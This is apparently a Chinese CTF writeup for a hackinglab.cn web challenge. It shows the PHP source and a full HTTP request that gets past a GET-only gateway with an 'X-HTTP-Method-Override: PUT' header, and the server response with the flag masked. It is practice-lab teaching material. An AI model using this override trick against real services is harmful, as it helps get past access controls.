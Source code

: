 ```yaml
---
layout: post
title: '不拦截攻击的奇怪的WAF-writeup'
date: 2020-04-01
author: 吃饭去
cover: '../assert'
tags: web,php
typora-root-url: a\a
typora-copy-images-to: ..\assets\img
---
```


# 不拦截攻击的奇怪的WAF-writeup

平时一起打手游的同事突然来问了一个题目，来自网络安全实验室（http://hackinglab.cn/），第一感觉是很老的题目，想着直接搜下writeup就可以了。结果一直没找到，只好自己动手做一下了。



题目链接：http://lab1.xseclab.com/base15_f6a5ee4d1e17952a3411932ab88f8e93/index.php

一进去就给了源码，看着一点难度都没有。

```php
I am backend Server;Only Accept PUT Method!<!--<?php
require_once "config.php";
if($_SERVER['REQUEST_METHOD']!="PUT") {
    
    echo "I am backend Server;Only Accept PUT Method!<!--";
    echo file_get_contents(__FILE__);
    die();
}

$post_data = json_decode(file_get_contents("php://input"),true);
if($post_data['token']==="5cb7a68628d276261a89f7807f671415"){
    echo "小红的年龄是: ".$flag;
}
```

但是直接改PUT会提示只允许使用GET，也就是说要让服务器认为你是GET，并且通过`$_SERVER['REQUEST_METHOD']!="PUT"`的校验。

![1585730312588](/../../../assets/img/1585730312588.png)

只好google了下，找到了`X-HTTP-Method-Override`，可以在GET/POST方法下模拟PUT/DELETE等RESTFUL API，感觉就是这个了~

最后的payload:

```
GET /base15_f6a5ee4d1e17952a3411932ab88f8e93/index.php HTTP/1.1
Host: lab1.xseclab.com
Proxy-Connection: keep-alive
Cache-Control: max-age=0
X-HTTP-Method-Override: PUT
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/72.0.3626.81 Safari/537.36 SE 2.X MetaSr 1.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=f9eb65ba669fd0c49691808834411551
Content-Length: 44

{"token":"5cb7a68628d276261a89f7807f671415"}


HTTP/1.1 200 OK
Server: nginx
Date: Wed, 01 Apr 2020 08:08:11 GMT
Content-Type: text/html;charset=utf-8
Connection: keep-alive
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
WAF: PASS
Via: 3832
Content-Length: 46

小红的年龄是: flagis: **************
```

















